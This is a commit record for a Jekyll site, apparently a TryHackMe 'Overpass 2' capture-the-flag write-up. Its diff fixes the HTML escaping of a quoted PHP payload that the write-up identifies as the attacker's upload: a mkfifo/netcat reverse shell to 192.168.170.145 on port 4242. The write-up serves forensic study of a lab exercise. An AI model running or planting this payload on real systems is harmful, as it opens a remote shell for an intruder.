

Before and after one commit to bitcriminals/bitcriminals.github.io, a Jekyll site: the page built from writeups/_tryhackme/overpass2hacked.md, in a window 1280 px wide and 900 px high, scrolled down 1596 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Update overpass2hacked.md

````diff
--- a/writeups/_tryhackme/overpass2hacked.md
+++ b/writeups/_tryhackme/overpass2hacked.md
@@ -23,7 +23,7 @@
 ![](/images/Mars/overpass2.png)
 
 When we followed the TCP stream of the packet with /development/uploads.php and found the above. Hence, the payload the attacker used was
-```&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?```
+```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```
 
 **What password did the attacker use to privesc?**
 
````
